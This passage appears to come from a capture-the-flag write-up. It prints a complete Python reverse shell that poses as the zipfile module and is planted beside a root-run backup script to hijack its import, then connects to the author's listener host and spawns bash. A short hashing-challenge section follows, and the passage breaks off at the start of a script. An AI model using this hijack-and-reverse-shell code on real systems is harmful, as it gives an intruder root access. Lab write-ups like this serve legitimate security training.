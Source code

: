 lhost = "10.4.23.252"
lport = 4444

ZIP_DEFLATED = 0

class ZipFile:
    def close(*args):
        return

    def write(*args):
        return

    def __init__(self, *args):
        return

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((lhost, lport))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
os.putenv("HISTFILE",'/dev/null')
pty.spawn("/bin/bash")
s.close()
```

I then used **nano** to save the file to the same directory as `backup.py`

![image](https://user-images.githubusercontent.com/104072961/164224526-05ad2fd5-2b82-45bb-98eb-ead7228168c9.png)

Now all that should be left is to run a **netcat** listener and wait for the script to run.

![image](https://user-images.githubusercontent.com/104072961/164224571-664f3c0f-c6b5-4a4f-b129-0948c57b894c.png)

There we have a nice shell as Root.

### Flag 4 

The final flag is located in `/root` and is accessible as the user Root.

# Task 10 - ThousandHashes

So this task is a bit of a simple programming challenge. Essentially, users are provided with the string `61v3_m3_k3y_pl3453` and they need to use a sequence of 5 hashing algorithms to hash the string 1000x total, resulting in a final hash which is the flag.

One of the competitors came up with a nice little script for this so shout outs to **[horrorclause](https://github.com/horrorclause/THM_Thousand_Hashes)** Follow the link to his gitbub page which include his writeup for this one.

The script used is as follows:

```
#!/usr/bin/env python3
